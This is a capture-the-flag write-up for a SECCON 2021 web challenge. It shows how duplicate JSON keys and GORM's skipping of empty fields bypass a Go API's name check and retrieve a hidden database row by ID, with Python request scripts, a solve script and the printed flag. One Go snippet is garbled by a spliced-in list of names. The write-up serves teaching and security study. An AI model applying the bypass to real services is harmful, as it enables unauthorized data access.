 ## 2021-12-11

Link: https://ctf.seccon.jp/

***

# Vulnerability
### Category: web

## Description
How many vulnerabilities do you know?

https://vulnerabilities.quals.seccon.jp

## Method
The code is written in Go. This website also has two API Endpoints: a GET request to https://vulnerabilities.quals.seccon.jp/api/vulnerability will give you all the vulnerabilities in the datebase (except the flag), and a POST request to the same endpoint with the parameter `name=?` will give you the details about a specific vulnerability.

There is a vulnerability in the database that corresponds to the name of the flag. Unfortunately the name is set as an environment variable, so it is hidden.

## Basic POST Script
This script makes a request to get information about the SGAxe vulnerability:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "SGAxe"
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

It returns the following:

```json
200
{"Logo":"/images/sgaxe.png","URL":"https://cacheoutattack.com/"}
```

## General Thoughts
Since the description is: "How many vulnerabilities do you know?", there will likely be a vulnerability with Go, or possibly with Gin.

https://security.snyk.io/vuln/SNYK-GOLANG-GITHUBCOMGINGONICGIN-550031

It's also possible that we can use the way GORM runs queries. Supposedly, if the other fields in the query are blank, it will use the Model object to run the query.

The following query returns the Heartbleed object:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 1
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

While this one does not, because the ID does not match.

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 2
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)

```

The problem is that the Go code checks for fields being blank, or nil, through the following lines:

```go
if name, ok := json["Name"]; !ok || name == "" || name == nil {
    c.JSON(400, gin.H{"Error"","DROWN Attack","CCS Injection","httpoxy","Meltdown","Spectre","Foreshadow","MDS","ZombieLoad Attack","RAMBleed","CacheOut","SGAxe"]}: "no \"Name\""})
    return
}
```

## Solution
In order to solve this challenge we need to circumvent the `Name` check. However, the problem is that if we specify a name then we can not get the flag because the name would be added to the SQL query. Since we don't know the name, the query would not return any results.

We need to find a way to make the code think we are sending a name but not have it affect the query.

GORM, the query library used, has the following in it's documentation:
```
NOTE When querying with struct, GORM will only query with non-zero fields, that means if your field’s value is 0, '', false or other zero values, it won’t be used to build query conditions, for example...
```

This means that by making `Name` the empty string, a zero value in Go, then GORM will not evaluate it in the query.

The following JSON seems to work. By sending the name twice, one of them the empty string and the other not, the non-empty string will allow the `Name` check to pass, but the query itself will use the empty string, thus not evaluating it.

```json
{
    "Name": "a",
    "name": "",
}
```

Then, to specify the row containing the flag in the query we can use the `ID` column that was added by the `gorm.Model` when defining the `Vulnerability` struct.

```go
type Vulnerability struct {
    gorm.Model
    Name string
    Logo string
    URL  string
}
```
https://gorm.io/docs/models.html#Embedded-Struct

Flag was the 14th row added, so it's `ID` is 14.

Posting with the following JSON will retrieve the flag:
```json
{
    "Name": "a",
    "name": "",
    "ID": 14
}
```

```json
{"Logo":"/images/SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}.png","URL":"seccon://SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}"}
```

## Solve Script
```python
import requests

def main():
    HOST = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"

    json = {
        "Name": "a",
        "name": "",
        "ID": 14
    }

    r = requests.post(HOST, json=json)

    print(r.text)

main()
```

## Flag
`SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}`

***

